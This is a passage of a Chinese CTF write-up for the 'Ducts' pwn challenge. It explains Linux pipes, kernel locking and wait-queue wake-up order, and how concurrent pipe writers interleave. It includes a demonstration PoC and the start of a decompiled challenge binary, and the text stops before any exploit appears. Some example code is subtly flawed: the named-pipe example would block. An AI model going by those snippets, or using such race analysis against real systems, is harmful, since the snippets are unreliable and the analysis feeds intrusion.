




本文首发于奇安信攻防社区 [https://forum.butian.net/share/3818](https://forum.butian.net/share/3818)
# 参考资料
[pipe(7) — Linux 手册页](https://man7.org/linux/man-pages/man7/pipe.7.html)
[Ducts 题解](https://matteoschiff.com/ducts-writeup/)
[管道读写规则与管道容量、PIPE_BUF](https://www.cnblogs.com/alantu2018/p/8477339.html)
[Linux 阻塞与等待队列机制](https://www.cnblogs.com/gdk-0078/p/5172941.html)
第一次在用户空间遇到管道竞争，挺有意思，学习一下

> 衷心感谢 tpus 和 stc4k 师傅的帮助

# pipe

### 概述

`pipe(7)` 是 Linux 手册中介绍管道和命名管道（FIFO）的页面。管道提供单向进程间通信（IPC）通道，包含读端和写端。数据写入写端后，可以从读端读出。

### 创建管道

#### 匿名管道

- **创建**：
  - 使用 `pipe(2)` 系统调用创建。
  - 调用 `pipe(2)` 会创建一个新管道，返回两个文件描述符：一个用于读端（通常是 `pipefd[0]`），另一个用于写端（通常是 `pipefd[1]`）。
  - 匿名管道通常用于父子进程间通信。

- **示例**：
  ```c
  #include <unistd.h>
  #include <stdio.h>

  int main() {
      int pipefd[2];
      char buf[100] = "Hello, pipe!";
      
      if (pipe(pipefd) == -1) {
          perror("pipe");
          return 1;
      }
      
      // 写入数据
      write(pipefd[1], buf, sizeof(buf));
      
      // 读取数据
      char read_buf[100];
      ssize_t n = read(pipefd[0], read_buf, sizeof(read_buf));
      if (n == -1) {
          perror("read");
          return 1;
      }
      
      read_buf[n] = '\0';
      printf("Read: %s\n", read_buf);
      
      // 关闭文件描述符
      close(pipefd[0]);
      close(pipefd[1]);
      
      return 0;
  }
  ```

#### 命名管道（FIFO）

- **创建**：
  - 在文件系统中有名称，使用 `mkfifo(3)` 函数创建。
  - 调用 `mkfifo(3)` 时需要指定路径和权限模式。
  - 使用 `open(2)` 系统调用打开，可以指定 `O_RDONLY` 或 `O_WRONLY` 标志。
  - 只要文件权限允许，任何进程都可以打开 FIFO。

- **示例**：
  ```c
  #include <sys/types.h>
  #include <sys/stat.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <stdio.h>

  int main() {
      const char *fifo_path = "/tmp/myfifo";
      
      // 创建 FIFO
      if (mkfifo(fifo_path, 0666) == -1) {
          perror("mkfifo");
          return 1;
      }
      
      // 打开 FIFO 用于写入
      int fd = open(fifo_path, O_WRONLY);
      if (fd == -1) {
          perror("open");
          return 1;
      }
      
      // 写入数据
      const char *msg = "Hello, FIFO!";
      write(fd, msg, strlen(msg));
      
      // 关闭文件描述符
      close(fd);
      
      // 删除 FIFO
      unlink(fifo_path);
      
      return 0;
  }
  ```

### I/O 操作

- **读写操作**：
  - **读操作**：
    - 如果尝试从空管道读取，`read(2)` 会阻塞，直到有数据可读。
    - 如果所有写端都已关闭，`read(2)` 返回 0，表示文件结束。
  - **写操作**：
    - 如果尝试向已满的管道写入，`write(2)` 会阻塞，直到有足够空间。
    - 如果所有读端都已关闭，`write(2)` 产生 `SIGPIPE` 信号，返回 -1，并将 `errno` 设为 `EPIPE`。
  - **非阻塞 I/O**：
    - 启用 `O_NONBLOCK` 标志即可实现非阻塞 I/O，可使用 `F_SETFL` 操作，通过 `fcntl(2)` 完成。
    - 对于 FIFO，如果已有进程打开写端，读操作返回 `EAGAIN`；否则，如果不存在潜在写入者，读取成功并返回空。

- **原子性**：
  - 写入的数据不超过 `PIPE_BUF` 字节时，操作具有原子性，即数据作为一个连续序列写入管道。
  - 写入的数据超过 `PIPE_BUF` 字节时，可能不具有原子性；内核可能将数据拆成多部分写入管道，其他进程的写入可能穿插其中。
  - POSIX.1 要求 `PIPE_BUF` 至少为 512 字节；Linux 上通常为 4096 字节。

### 配置选项

- **/proc 文件系统**：
  - `/proc/sys/fs/pipe-max-size`：设置管道的最大容量（单位：字节）。
  - `/proc/sys/fs/pipe-user-pages-hard`：设置单个非特权用户可分配给管道缓冲区的总页数硬限制。
  - `/proc/sys/fs/pipe-user-pages-soft`：设置单个非特权用户可分配给管道缓冲区的总页数软限制。

### 相关函数与系统调用

- **创建与管理**：
  - `pipe(2)`：创建匿名管道。
  - `mkfifo(3)`：创建命名管道。
  - `open(2)`：打开命名管道。
  - `fcntl(2)`：管理文件描述符属性。
  - `dup(2)`：复制文件描述符。
  - `close(2)`：关闭文件描述符。

- **I/O 操作**：
  - `read(2)`：从管道读取数据。
  - `write(2)`：向管道写入数据。
  - `poll(2)` 和 `select(2)`：监视多个文件描述符的状态。
  - `splice(2)` 和 `tee(2)`：高效传输数据。
  - `vmsplice(2)`：将用户空间内存区域的内容写入管道。

- **其他**：
  - `stat(2)`：获取文件状态。
  - `unlink(2)`：删除文件。
  - `epoll(7)`：高效的 I/O 多路复用机制。
  - `fifo(7)`：命名管道的详细说明。

### 通信语义

- **字节流**：
  - 管道提供的通信通道是字节流，没有消息边界的概念。
  - 数据按顺序写入和读取，但没有明确的消息分隔符。

### 示例代码

#### 匿名管道示例

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
    int pipefd[2];
    pid_t cpid;
    char buf[100];

    if (pipe(pipefd) == -1) {
        perror("pipe");
        exit(EXIT_FAILURE);
    }

    cpid = fork();
    if (cpid == -1) {
        perror("fork");
        exit(EXIT_FAILURE);
    }

    if (cpid == 0) {    // 子进程
        close(pipefd[1]); // 关闭写端
        ssize_t n = read(pipefd[0], buf, sizeof(buf));
        if (n == -1) {
            perror("read");
            exit(EXIT_FAILURE);
        }
        buf[n] = '\0';
        printf("Child: received '%s'\n", buf);
        close(pipefd[0]);
        exit(EXIT_SUCCESS);
    } else {            // 父进程
        close(pipefd[0]); // 关闭读端
        const char *msg = "Hello, child!";
        write(pipefd[1], msg, strlen(msg));
        close(pipefd[1]);
        wait(NULL);     // 等待子进程结束
        exit(EXIT_SUCCESS);
    }
}
```

#### 命名管道示例

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
    const char *fifo_path = "/tmp/myfifo";

    // 创建 FIFO
    if (mkfifo(fifo_path, 0666) == -1) {
        perror("mkfifo");
        exit(EXIT_FAILURE);
    }

    // 父进程写入数据
    int fd = open(fifo_path, O_WRONLY);
    if (fd == -1) {
        perror("open");
        exit(EXIT_FAILURE);
    }
    const char *msg = "Hello, FIFO!";
    write(fd, msg, strlen(msg));
    close(fd);

    // 子进程读取数据
    pid_t cpid = fork();
    if (cpid == -1) {
        perror("fork");
        exit(EXIT_FAILURE);
    }

    if (cpid == 0) {    // 子进程
        fd = open(fifo_path, O_RDONLY);
        if (fd == -1) {
            perror("open");
            exit(EXIT_FAILURE);
        }
        char buf[100];
        ssize_t n = read(fd, buf, sizeof(buf));
        if (n == -1) {
            perror("read");
            exit(EXIT_FAILURE);
        }
        buf[n] = '\0';
        printf("Child: received '%s'\n", buf);
        close(fd);
        exit(EXIT_SUCCESS);
    } else {            // 父进程
        wait(NULL);     // 等待子进程结束
        unlink(fifo_path); // 删除 FIFO
        exit(EXIT_SUCCESS);
    }
}
```

### 参考资料

- `fcntl(2)`
- `intro(2)`
- `open(2)`
- `pipe(2)`
- `splice(2)`
- `tee(2)`
- `vmsplice(2)`
- `write(2)`
- `proc_sys_fs(5)`
- `fifo(7)`
- `signal(7)`

# 竞争点
[任意只读文件漏洞分析](https://xie.infoq.cn/article/c2bdf20841b48d407b1485c9a)
位于 pipe_write 中

大致来说：第一个进程向管道写入并释放锁后，其他进程依次开始写入，但都会像第一个进程一样，阻塞在 wait_event_interruptible_exclusive，之后才轮到读进程读取。读取结束后，各进程的 wait_event_interruptible_exclusive 返回，再获取锁并继续写入。

因此，谁先写入，取决于谁从退出 wait_event_interruptible_exclusive 到获得锁的速度更快

下面详细分析
## 互斥锁
下面详细说明 `mutex_init`、`mutex_lock` 和 `mutex_unlock` 的作用及内部机制。

### 1. `mutex_init`

#### 定义
```c
#define mutex_init(mutex) \
do {							\
	static struct lock_class_key __key;		\
								\
	__mutex_init((mutex), #mutex, &__key);		\
} while (0)
```

#### 用途
`mutex_init` 用于初始化互斥锁，确保它处于未锁定状态，准备好供后续使用。

#### 实现
```c
void __mutex_init(struct mutex *lock, const char *name, struct lock_class_key *key)
{
	atomic_set(&lock->count, 1); // 将计数器设置为1，表示未锁定
	spin_lock_init(&lock->wait_lock); // 初始化自旋锁，用于保护等待队列
	INIT_LIST_HEAD(&lock->wait_list); // 初始化等待队列
	mutex_clear_owner(lock); // 清除所有者信息
#ifdef CONFIG_MUTEX_SPIN_ON_OWNER
	lock->spin_mlock = NULL; // 初始化自旋锁指针（如果启用了相关配置）
#endif
 
	debug_mutex_init(lock, name, key); // 调试信息初始化
}
```

#### 工作原理
- **初始化计数器**：`atomic_set(&lock->count, 1)` 将互斥锁计数器设为 1，表示尚未锁定。
- **初始化自旋锁**：`spin_lock_init(&lock->wait_lock)` 初始化用于保护等待队列的自旋锁。
- **初始化等待队列**：`INIT_LIST_HEAD(&lock->wait_list)` 初始化链表头，用于管理等待获取互斥锁的任务。
- **清除所有者信息**：`mutex_clear_owner(lock)` 清除互斥锁的所有者信息。
- **初始化调试信息**：`debug_mutex_init(lock, name, key)` 用于调试，记录互斥锁的名称和类键。

### 2. `mutex_lock`

#### 定义
```c
void __sched mutex_lock(struct mutex *lock)
{
	might_sleep(); // 提示编译器该函数可能会睡眠
	/*
	 * The locking fastpath is the 1->0 transition from
	 * 'unlocked' into 'locked' state.
	 */
	__mutex_fastpath_lock(&lock->count, __mutex_lock_slowpath);
	mutex_set_owner(lock);
}
```

#### 用途
`mutex_lock` 用于获取互斥锁。如果锁已被其他任务持有，当前任务会休眠，直到锁可用。

#### 实现
- **提示可能休眠**：`might_sleep()` 向编译器提示该函数可能休眠，确保调用者不会在禁止休眠的上下文中调用该函数。
- **快速路径**：`__mutex_fastpath_lock(&lock->count, __mutex_lock_slowpath)` 尝试快速获取互斥锁。如果锁未被持有，直接将计数器从 1 减到 0，表示已锁定；如果锁已被持有，则调用慢速路径 `__mutex_lock_slowpath`。
- **设置所有者**：`mutex_set_owner(lock)` 将互斥锁的所有者设为当前任务。

#### 工作原理
- **快速路径**：尝试以原子操作将计数器从 1 减到 0。如果成功，表示当前任务已获取互斥锁。
- **慢速路径**：如果快速路径失败（即锁已被其他任务持有），则调用 `__mutex_lock_slowpath`。慢速路径将当前任务加入等待队列，并使其休眠，直到互斥锁可用。
- **设置所有者**：确保互斥锁的所有者信息正确设置为当前任务。

### 3. `mutex_unlock`

#### 定义
```c
void __sched mutex_unlock(struct mutex *lock)
{
	/*
	 * The unlocking fastpath is the 0->1 transition from 'locked'
	 * into 'unlocked' state:
	 */
#ifndef CONFIG_DEBUG_MUTEXES
	/*
	 * When debugging is enabled we must not clear the owner before time,
	 * the slow path will always be taken, and that clears the owner field
	 * after verifying that it was indeed current.
	 */
	mutex_clear_owner(lock); // 清除所有者信息
#endif
	__mutex_fastpath_unlock(&lock->count, __mutex_unlock_slowpath);
}
```

#### 用途
`mutex_unlock` 用于释放互斥锁。只有当前任务持有该锁时，才能调用这个函数释放它。

#### 实现
- **清除所有者信息**：`mutex_clear_owner(lock)` 清除互斥锁的所有者信息。 如果启用调试模式，则在慢速路径中执行该操作。
- **快速路径**：`__mutex_fastpath_unlock(&lock->count, __mutex_unlock_slowpath)` 尝试快速释放互斥锁。如果锁由当前任务持有，则直接将计数器从 0 加到 1，表示已解锁；如果不是当前任务持有，则调用慢速路径 `__mutex_unlock_slowpath`。

#### 工作原理
- **快速路径**：尝试以原子操作将计数器从 0 加到 1。如果成功，表示互斥锁已解锁。
- **慢速路径**：如果快速路径失败（即锁并非由当前任务持有），则调用 `__mutex_unlock_slowpath`。慢速路径验证互斥锁所有者信息，并唤醒等待队列中的下一个任务。
- **清除所有者信息**：确保正确清除互斥锁的所有者信息，使其他任务能够获取锁。

### 总结

- **`mutex_init`**：初始化互斥锁，确保处于未锁定状态。
- **`mutex_lock`**：获取互斥锁；如果锁已被其他任务持有，当前任务会休眠，直到锁可用。
- **`mutex_unlock`**：释放互斥锁；只有当前任务持有该锁时，才能调用此函数释放它。


## pipe_read
读进程先启动，此时尚未写入任何内容。在 `pipe_read` 函数中，如果管道里没有可读内容，就会进入相应的处理流程。具体流程如下：

### 1. **初始状态检查**
首先，函数锁定管道的互斥锁（`mutex_lock(&pipe->mutex)`），检查管道的头尾指针，判断管道是否为空。以下代码执行这项检查：
```c
unsigned int head = smp_load_acquire(&pipe->head);
unsigned int tail = pipe->tail;
```

随后判断以下条件：
```c
if (!pipe_empty(head, tail)) {
    // 管道不为空的情况，处理读取
} else {
    // 管道为空的情况
}
```

如果管道为空，`pipe_empty(head, tail)` 返回 `true`，执行流程进入“管道为空”的处理逻辑。

### 2. **检查是否存在写入者**
接着，检查是否仍有写入者向管道写入：
```c
if (!pipe->writers)
    break;
```
- 如果没有写入者（`pipe->writers == 0`），就不会再有数据写入，因此直接跳出循环，函数返回。
- 如果存在写入者，则继续执行。（通常存在。）

### 3. **处理非阻塞模式**
阻塞与非阻塞模式的行为不同。接下来检查文件描述符标志：
```c
if ((filp->f_flags & O_NONBLOCK) || (iocb->ki_flags & IOCB_NOWAIT)) {
    ret = -EAGAIN;
    break;
}
```
- 如果文件描述符设置了 `O_NONBLOCK` 标志（非阻塞模式），或 `iocb` 结构体设置了 `IOCB_NOWAIT` 标志，`pipe_read` 会立即返回 `-EAGAIN`，表示当前没有可读数据，且不会等待。（通常为阻塞模式。）
- 如果为阻塞模式，则继续等待数据。

### 4. **解锁并等待数据**
在阻塞模式下，如果管道为空，程序会解开互斥锁，进入等待状态：
```c
mutex_unlock(&pipe->mutex);
```
随后调用 `wait_event_interruptible_exclusive` 等待数据：
```c
if (wait_event_interruptible_exclusive(pipe->rd_wait, pipe_readable(pipe)) < 0)
    return -ERESTARTSYS;
```
- `wait_event_interruptible_exclusive` 使当前进程休眠，直到管道变为可读（即有数据写入），或进程被信号（如 `SIGINT`）中断。
- 如果被信号中断，函数返回 `-ERESTARTSYS`，告知调用者需要重启系统调用。
- 如果管道变为可读（即已有数据写入），函数会再次尝试读取数据。

### 5. **重新获取互斥锁并再次检查**
等待结束后，函数重新获取管道的互斥锁：
```c
mutex_lock(&pipe->mutex);
```
然后进入循环，再次检查管道状态，重新判断是否有数据可读。如果此时管道中有数据，就进入读取流程。


## 同时启动多个 pipe_write
此时由于只有一个进程能成功获取锁，其余进程都进入互斥锁等待队列，但顺序未知。随后，当管道缓冲区被填满时，会进入以下流程：

```c
  mutex_unlock(&pipe->mutex);
		if (was_empty)
			wake_up_interruptible_sync_poll(&pipe->rd_wait, EPOLLIN | EPOLLRDNORM);
		kill_fasync(&pipe->fasync_readers, SIGIO, POLL_IN);
		wait_event_interruptible_exclusive(pipe->wr_wait, pipe_writable(pipe));
		mutex_lock(&pipe->mutex);
		was_empty = pipe_empty(pipe->head, pipe->tail);
		wake_next_writer = true;
	}
```
此时解锁会使其他进程开始获取锁，并向阻塞的 pipe_read 读进程发送唤醒信号。由于管道缓冲区已满，其他 pipe_write 进程仍会进入上述相同流程

但第一个 pipe_write 进程释放锁后，互斥锁等待队列中已有其他 pipe_write 进程，因此其他 pipe_write 进程先获取锁。此时，第一个 pipe_write 进程通过 `wake_up_interruptible_sync_poll` 唤醒 pipe_read 读进程；pipe_read 随后尝试加锁，但锁已被占用，因此进入互斥锁等待队列，排在 pipe_write 进程后面。随后，第一个 pipe_write 将自身加入等待队列，直到收到管道可写的信号


此时，其他 pipe_write 进程也会依次执行到 `wait_event_interruptible_exclusive`，将自身加入等待队列。
```c
if (wait_event_interruptible_exclusive(pipe->rd_wait, pipe_readable(pipe)) < 0)
			return -ERESTARTSYS;

		mutex_lock(&pipe->mutex);
		was_full = pipe_full(pipe->head, pipe->tail, pipe->max_usage);
		wake_next_reader = true;
	}
```

## pipe_read 读取后唤醒 pipe_write

```c
	}
	if (pipe_empty(pipe->head, pipe->tail))
		wake_next_reader = false;
	mutex_unlock(&pipe->mutex);

	if (was_full)
		wake_up_interruptible_sync_poll(&pipe->wr_wait, EPOLLOUT | EPOLLWRNORM);
	if (wake_next_reader)
		wake_up_interruptible_sync_poll(&pipe->rd_wait, EPOLLIN | EPOLLRDNORM);
	kill_fasync(&pipe->fasync_writers, SIGIO, POLL_OUT);
	if (ret > 0)
		file_accessed(filp);
	return ret;
}
```
通过 `wake_up_interruptible_sync_poll` 唤醒 pipe_write 时，唤醒及加入等待队列的机制如下

### 加入等待队列

1. **创建等待队列项**：
   - 调用 `wait_event_interruptible_exclusive()` 时，会初始化 `wait_queue_entry` 结构体。此操作通过 `init_wait_entry()` 完成。
   - `flags` 字段标记 `wait_queue_entry` 是否为独占等待项。
   - `private` 字段通常设置为当前进程（`current`），表示正在等待的任务。

2. **插入等待队列**：
   - `prepare_to_wait_event()` 函数将 `wait_queue_entry` 插入 `wait_queue_head` 链表。
   - 如果是独占等待，将队列项添加到队尾；非独占等待则添加到队首。
   - 将当前任务状态设为 `TASK_INTERRUPTIBLE`（使用 `wait_event_interruptible_exclusive` 时）或 `TASK_UNINTERRUPTIBLE`。

### 唤醒机制
wake_up_interruptible_sync_poll(&pipe->wr_wait, EPOLLOUT | EPOLLWRNORM); 唤醒 wait_event_interruptible_exclusive(pipe->wr_wait, pipe_writable(pipe)); 时，__wake_up_common 的执行流程

```c
#define wake_up_interruptible_sync_poll(x, m)					\
	__wake_up_sync_key((x), TASK_INTERRUPTIBLE, poll_to_key(m))
	
void __wake_up_sync_key(struct wait_queue_head *wq_head, unsigned int mode,
			void *key)
{
	if (unlikely(!wq_head))
		return;

	__wake_up_common_lock(wq_head, mode, 1, WF_SYNC, key);
}
EXPORT_SYMBOL_GPL(__wake_up_sync_key);

static int __wake_up_common_lock(struct wait_queue_head *wq_head, unsigned int mode,
			int nr_exclusive, int wake_flags, void *key)
{
	unsigned long flags;
	int remaining;

	spin_lock_irqsave(&wq_head->lock, flags);
	remaining = __wake_up_common(wq_head, mode, nr_exclusive, wake_flags,
			key);
	spin_unlock_irqrestore(&wq_head->lock, flags);

	return nr_exclusive - remaining;
}

static int __wake_up_common(struct wait_queue_head *wq_head, unsigned int mode,
			int nr_exclusive, int wake_flags, void *key)
{
	wait_queue_entry_t *curr, *next;

	lockdep_assert_held(&wq_head->lock);

	curr = list_first_entry(&wq_head->head, wait_queue_entry_t, entry);

	if (&curr->entry == &wq_head->head)
		return nr_exclusive;

	list_for_each_entry_safe_from(curr, next, &wq_head->head, entry) {
		unsigned flags = curr->flags;
		int ret;

		ret = curr->func(curr, mode, wake_flags, key);
		if (ret < 0)
			break;
		if (ret && (flags & WQ_FLAG_EXCLUSIVE) && !--nr_exclusive)
			break;
	}

	return nr_exclusive;
}

```
Linux 内核通过等待队列管理任务的休眠和唤醒。当多个任务在同一等待队列上独占等待时（例如使用 `wait_event_interruptible_exclusive`），唤醒机制会按照一定策略唤醒任务。

### 独占等待的唤醒策略

1. **队列顺序**：
   - 等待队列内部通常是链表结构，任务按进入顺序排列。最先进入的任务在链表头部，最后进入的在尾部。

2. **唤醒顺序**：
   - `__wake_up_common` 函数遍历等待队列时，从队首（即最早进入的任务）开始检查和唤醒。因此，通常首先唤醒最早进入等待队列的独占任务。

3. **独占标志**：
   - 每个等待队列项都包含标志，表示任务是否独占等待（通过 `WQ_FLAG_EXCLUSIVE` 标志）。
   - 在 `__wake_up_common` 中，成功唤醒一个独占任务后，`nr_exclusive` 计数器递减。
   - 一旦 `nr_exclusive` 变为零，唤醒过程停止，即只唤醒指定数量的独占任务，而不是全部等待任务。

### 具体唤醒哪个任务

- **第一个独占任务**：多个任务等待时，唤醒机制首先唤醒队列中第一个带独占标志的任务。
- **FIFO 顺序**：由于队列按 FIFO（先进先出）顺序管理，首先唤醒的独占任务通常是最早调用 `wait_event_interruptible_exclusive` 并加入队列的任务。

此时，哪个 pipe_write 进程先触发 `wait_event_interruptible_exclusive` 并加入等待队列是不确定的：最先解锁的 pipe_write 随后触发 `wait_event_interruptible_exclusive`，与其他进程获取锁、解锁后再触发 `wait_event_interruptible_exclusive`，两者的先后顺序不确定。自然，最先唤醒哪个 pipe_write 进程也不确定

但如果其他 pipe_write 进程比最先解锁的 pipe_write 更早触发 `wait_event_interruptible_exclusive`，下一个开始写入的就不会是原来那个 pipe_write 进程


# 检查
GOT 表可写
# 调试
- set detach-on-fork off
这条 gdb 指令会使调试父进程或子进程时，另一进程自动暂停在 fork 位置。这里用于方便观察
-  set follow-fork-mode parent   调试父进程
 
- set follow-fork-mode child   调试子进程
# poc

```c


#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <fcntl.h>

#define TEST_SIZE 68*1024 
#define NUM_CHILDREN 2

int main() {
    int i;
    pid_t pid;
    int *start_flag;
    char a[TEST_SIZE];
   
    
    int pipefd[2];
    int ret;

    pipe(pipefd);
    // 使用共享内存来同步
    start_flag = mmap(NULL, sizeof(int), PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (start_flag == MAP_FAILED) {
        perror("mmap");
        exit(EXIT_FAILURE);
    }
    
    pid = fork();
   if (pid == 0)
    {   printf("read pipe apid=%d  begin\n", getpid());
        close(pipefd[1]);
        char buf[1024 * 4] = {0};
        int n = 1;
        while (1)
        {
            ret = read(pipefd[0], buf, sizeof(buf)); //当管道被写入数据，就已经可以开始读了,每次读取4k
            if (ret == 0) // 管道写端全部关闭,即读到了结尾
                break;
            printf("n=%02d pid=%d read %d bytes from pipe buf[4095]=%c\n",
                n++, getpid(), ret, buf[4095]);
        }
    }

    *start_flag = 0;  // 初始化同步标志为0

    for (i = 0; i < NUM_CHILDREN; i++) {
        pid = fork();
        if (pid == 0) {
            printf("write pipe apid=%d  begin\n", getpid());
            while (*start_flag == 0) {
                // 等待父进程设置start_flag为1
                usleep(100);
            }

            close(pipefd[0]);
            memset(a, 'A'+i, sizeof(a));
            ret = write(pipefd[1], a, sizeof(a)); // 全部写完才返回
            printf("apid=%d write %d bytes to pipe\n", getpid(), ret);
            exit(0);
        }
    }
    sleep(1);
    *start_flag = 1;
    for (i = 0; i < NUM_CHILDREN+1; i++) {
        wait(NULL);  // 等待所有子进程结束
    }
    // 释放共享内存
    if (munmap(start_flag, sizeof(int)) == -1) {
        perror("munmap");
        exit(EXIT_FAILURE);
    }
    return 0;
}
```
可以看到，pipe_write 阻塞后，pipe_read 唤醒的是另一个进程 B


# 逆向分析

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int *v3; // rax
  uint16_t port; // ax
  socklen_t addr_len; // [rsp+8h] [rbp-48h] BYREF
  socklen_t len; // [rsp+Ch] [rbp-44h] BYREF
  int server_fd; // [rsp+10h] [rbp-40h]
  int client_fd; // [rsp+14h] [rbp-3Ch]
  int pipedes[2]; // [rsp+18h] [rbp-38h] BYREF
  struct sockaddr sockaddr; // [rsp+20h] [rbp-30h] BYREF
  struct sockaddr client_addr; // [rsp+30h] [rbp-20h] BYREF
  unsigned __int64 v13; // [rsp+48h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  alarm(0x3Cu);
  pipe(pipedes);
  if ( !fork() )
    backend(pipedes[0]);
  server_fd = socket(2, 1, 0);
  if ( server_fd == -1 )
  {
    puts("socket creation failed...");
    exit(1);
  }
  puts("Socket successfully created..");
  memset(&sockaddr, 0, sizeof(sockaddr));
  sockaddr.sa_family = 2;
  *(_DWORD *)&sockaddr.sa_data[2] = htonl(0);
  *(_WORD *)sockaddr.sa_data = htons(0);
  if ( bind(server_fd, &sockaddr, 0x10u) )
  {
    puts("socket bind failed...");
    exit(1);
  }
  puts("Socket successfully binded..");
  if ( listen(server_fd, 5) )
  {
    puts("Listen failed...");
    exit(1);
  }
  puts("Server listening..");
  len = 16;
  if ( getsockname(server_fd, &sockaddr, &len) )
  {
    v3 = __h_errno_location();
    printf("failed to get hostname with errno %d\n", (unsigned int)*v3);
    exit(1);
  }
  port = htons(*(uint16_t *)sockaddr.sa_data);
  printf("Port is %u\n", port);
  addr_len = 16;
  while ( 1 )
  {
    client_fd = accept(server_fd, &client_addr, &addr_len);
    if ( !client_fd )
      break;
    if ( !fork() )
      talk(client_fd, pipedes[1]);
  }
  close(server_fd);
  return 0;
}
```

```c
void __fastcall __noreturn backend(unsigned int pipe_read)
{
  int read_from_pipe_read; // [rsp+1Ch] [rbp-4h]

  first = (__int64)NULL_MESSAGE;
  last = (__int64)NULL_MESSAGE;
  devnull = fopen("/dev/null", "w");
  while ( 1 )
  {
    read_from_pipe_read = identify_incoming(pipe_read);
    if ( read_from_pipe_read == 1 )
    {
      handle_command(pipe_read);
    }
    else if ( !read_from_pipe_read )
    {
      handle_message(pipe_read);
    }
  }
}
__int64 __fastcall identify_incoming(int pipe_read)
{
  unsigned int buf; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  read(pipe_read, &buf, 4uLL);
  return buf;
}
void __fastcall handle_command(int pipe_read)
{
  signed int destory_buf_len; // eax
  struct command *command; // [rsp+18h] [rbp-8h]

  command = receive_command(pipe_read);
  destory_buf_len = command->destory_buf_len;
  if ( destory_buf_len == 0xDEADC0DE )
  {
    flush_messages();
    goto LABEL_9;
  }
  if ( destory_buf_len > (int)0xDEADC0DE )
    goto LABEL_8;
  if ( destory_buf_len == 0xCAFEBABE )
  {
    redact_message((__int64)command);
    goto LABEL_9;
  }
  if ( destory_buf_len != 0xDEADBEEF )
  {
LABEL_8:
    printf("Invalid command %d", (unsigned int)command->destory_buf_len);
    goto LABEL_9;
  }
  print_messages();
LABEL_9:
  destroy_packet(command);
}
struct message *__fastcall handle_message(int pipe_read)
{
  struct message *result; // rax
  struct message *message; // [rsp+18h] [rbp-8h]

  message = receive_message(pipe_read);
